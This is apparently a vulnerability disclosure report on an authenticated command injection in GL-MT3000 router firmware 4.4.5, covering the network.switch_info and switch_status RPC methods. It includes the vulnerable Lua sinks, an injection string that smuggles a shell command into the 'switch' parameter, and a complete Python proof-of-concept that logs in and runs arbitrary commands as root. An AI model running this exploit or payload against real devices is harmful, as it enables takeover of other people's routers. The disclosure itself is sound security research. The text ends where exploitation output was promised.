


Submission Date: 2026.5.18
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An authenticated command injection vulnerability exists in the `network.switch_info` and `network.switch_status` RPC methods of the affected product. The `network` Lua RPC plugin at `/usr/lib/oui-httpd/rpc/network` concatenates the user-supplied `switch` parameter directly into shell commands executed via `io.popen()`. Both methods use the identical injection pattern with no input validation, resulting in root command execution.

The reported vulnerable flow is:

```text
Authenticated attacker
  -> POST /rpc challenge/login -> sid
  -> POST /rpc call("network","switch_info",{"switch":"x; <cmd>; #"})
  -> M.switch_info({switch="x; <cmd>; #"})
  -> io.popen("swconfig dev " .. msg.switch .. " help")
  -> /bin/sh -c "swconfig dev x; <cmd>; # help"
```

The Lua source code at `/usr/lib/oui-httpd/rpc/network`:



```lua
-- switch_info (line 178)
function M.switch_info(msg)
    local f = io.popen("swconfig dev " .. msg.switch .. " help")   -- SINK
    -- ...
end

-- switch_status (line 213)
function M.switch_status(msg)
    local f = io.popen("swconfig dev " .. msg.switch .. " show")   -- SINK
    -- ...
end
```

A full audit of all 11 methods in the network plugin was performed. Only `switch_info` and `switch_status` are vulnerable. Other methods either use `ngx.pipe.spawn()` with array arguments (bypassing the shell entirely), read from `/proc` files with no user input, or perform UCI operations without shell execution.

The `/sbin/swconfig` binary was verified to be a standard OpenWrt switch configuration tool (AArch64 ELF, uses libnl-tiny for kernel netlink communication) — no injection is possible at the binary level.

Exploit the vulnerability by sending a crafted HTTP request:

```python
#!/usr/bin/env python3
"""PoC: network.switch_info — switch parameter command injection via io.popen()"""
import hashlib, json, ssl, subprocess, sys, urllib.request

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "id"
USER   = sys.argv[3] if len(sys.argv) > 3 else "root"
PASS   = sys.argv[4] if len(sys.argv) > 4 else "12345678Q!"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

def post(path, data):
    req = urllib.request.Request(f"{TARGET}{path}", data=json.dumps(data).encode(),
        headers={"Content-Type": "application/json"}, method="POST")
    return json.loads(urllib.request.urlopen(req, timeout=10, context=ctx).read())

ch = post("/rpc", {"jsonrpc":"2.0","id":1,"method":"challenge","params":{"username":USER}})
crypt = subprocess.check_output(
    ["openssl","passwd","-1","-salt",ch["result"]["salt"],PASS], text=True).strip()
h = hashlib.md5(f"{USER}:{crypt}:{ch['result']['nonce']}".encode()).hexdigest()
sid = post("/rpc", {"jsonrpc":"2.0","id":2,"method":"login",
    "params":{"username":USER,"hash":h}})["result"]["sid"]

switch = f"x >/dev/null 2>&1; {CMD} > /tmp/p15_out 2>&1; printf '(poc), ports: 1 (cpu @ 0), vlans: 1'; #"
r = post("/rpc", {"jsonrpc":"2.0","id":3,"method":"call",
    "params":[sid,"network","switch_info",{"switch":switch}]})
print(json.dumps(r, indent=2)[:500])
```

The exploitation is shown below.


